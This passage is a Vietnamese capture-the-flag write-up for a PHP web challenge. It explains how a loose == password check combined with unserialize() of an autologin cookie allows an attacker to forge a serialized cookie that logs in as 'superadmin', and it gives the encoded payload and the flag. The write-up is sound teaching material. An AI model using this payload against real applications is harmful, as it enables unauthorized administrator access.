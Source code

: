 ```php
        $message = "Error : $autologin authentication failed !";
    }
}
if(!empty($message))
    echo "<p><em>$message</em></p>";

// admin ?
if($_SESSION['login'] === "superadmin"){
    require_once('admin.inc.php');
}
// user ?
elseif (isset($_SESSION['login']) && $_SESSION['login'] !== ""){
    require_once('user.inc.php');
}
```
Nhìn vào code chúng ta thấy ở chỗ check password đang được so sánh lỏng lẻo
```php
   if ($data['password'] == $auth[ $data['login'] ] ) {
```
Chỗ này mình có thể tấn công vào và `$data` thì được gán giá trị từ input đầu vào hoặc từ `unserialize($_COOKIE['autologin'])`.

Sau khi đăng nhập bằng tài khoản `guest:guest` mình check cookie thì nhận được giá trị của `autologin`:
```php
a%3A2%3A%7Bs%3A5%3A%22login%22%3Bs%3A5%3A%22guest%22%3Bs%3A8%3A%22password%22%3Bs%3A64%3A%2284983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec%22%3B%7D
```

Và mình dùng `cyberchef` để decode nó:

```php
a:2:{s:5:"login";s:5:"guest";s:8:"password";s:64:"84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec";}
```
Bây giờ mình cần chỉnh giá trị `autologin` sao cho khi `unserialize` bypass được password.

Trước tiên mình thấy tài khoản administrator là `superadmin`.
Và để bypass được chỗ check password thì mình cần truyền giá trị `$data['password']` là `true` vì `true == string`.

Payload có thể là
```php
a%3A2%3A%7Bs%3A5%3A%22login%22%3Bs%3A10%3A%22superadmin%22%3Bs%3A8%3A%22password%22%3Bb:1%3B%7D
// a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1}
```
`b:1` là sử dụng giá trị True cho password.

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/335880355_170034572511328_2068206015517629175_n.png?_nc_cat=102&ccb=1-7&_nc_sid=aee45a&_nc_ohc=lA0sAI5OBn0AX8ExKEq&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSBeh9E8PZU5P6QUerzrJ5hQOw_Z2Gfc16YVAIOh5GKxQ&oe=64375A30)

> Flag : NoUserInputInPHPSerialization!

# 5.Level20(WebSec)
